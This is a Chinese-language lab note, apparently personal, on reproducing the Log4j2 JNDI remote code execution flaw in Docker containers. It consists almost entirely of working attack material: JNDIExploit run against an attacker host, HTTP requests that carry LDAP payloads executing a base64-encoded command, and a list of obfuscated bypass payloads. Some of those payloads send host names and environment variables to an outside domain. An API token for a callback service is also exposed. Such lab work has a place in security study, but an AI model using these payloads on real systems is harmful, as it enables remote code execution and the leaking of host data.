



# 启动漏洞环境

```
docker pull vulfocus/vulfocus
docker run -d -p 80:80 -v /var/run/docker.sock:/var/run/docker.sock -e VUL_IP=xxx.xxx.xxx.xxx vulfocus/vulfocus
docker pull vulfocus/log4j2-rce-2021-12-09:latest


docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh
```

```
 java -jar .\JNDIExploit-1.3-SNAPSHOT.jar -i 192.168.154.1
```

# 利用工具进行POC测试



分析

```http
POST /webstudy/hello-fengxuan HTTP/1.1
Host: 192.168.154.134:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

c=${jndi:ldap://2021121414351245d0ee.8f9362.ceye.io/}

HTTP/1.1 200 
Content-Type: text/html;charset=utf-8
Content-Length: 68
Date: Tue, 14 Dec 2021 06:35:16 GMT

<html><body>
<h1>..............................</h1>
</body></html>

```

```http
GET /v1/records?token=fe592c9ec8bcf26f3f0807af6706259a&type=dns&filter=2021121414351245d0ee HTTP/1.1
Host: api.ceye.io
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

HTTP/1.1 200 OK
Server: nginx/1.20.1
Date: Tue, 14 Dec 2021 06:35:19 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 326
Connection: keep-alive
Keep-Alive: timeout=20
Set-cookie: ceye.session=ea2b043cda9f476d9202561b9c5ce582; Domain=.ceye.io; expires=Tue, 14-Dec-2021 08:35:19 GMT; Path=/; SameSite=Lax

{"meta": {"code": 200, "message": "OK"}, "data": [{"id": "295411086", "name": "2021121414351245d0ee.8f9362.ceye.io", "remote_addr": "117.136.185.20", "created_at": "2021-12-14 06:35:13"}, {"id": "295411085", "name": "2021121414351245d0ee.8f9362.ceye.io", "remote_addr": "117.136.185.20", "created_at": "2021-12-14 06:35:13"}]}
```

# EXP测试

```http
POST /webstudy/hello-fengxuan HTTP/1.1
Host: 192.168.154.134:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 106

c=${jndi:ldap://192.168.154.1:1389/TomcatBypass/Command/Base64/dG91Y2ggMS50eHQ=}

dG91Y2ggMS50eHQ=  == touch 1.txt

HTTP/1.1 200 
Content-Type: text/html;charset=utf-8
Content-Length: 68
Date: Tue, 14 Dec 2021 06:46:13 GMT

<html><body>
<h1>..............................</h1>
</body></html>

```





# 绕过姿势

```
${jndi:ldap://127.0.0.1:1389/ badClassName} 
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```

[工具链接](https://github.com/inbug-team/Log4j_RCE_Tool)
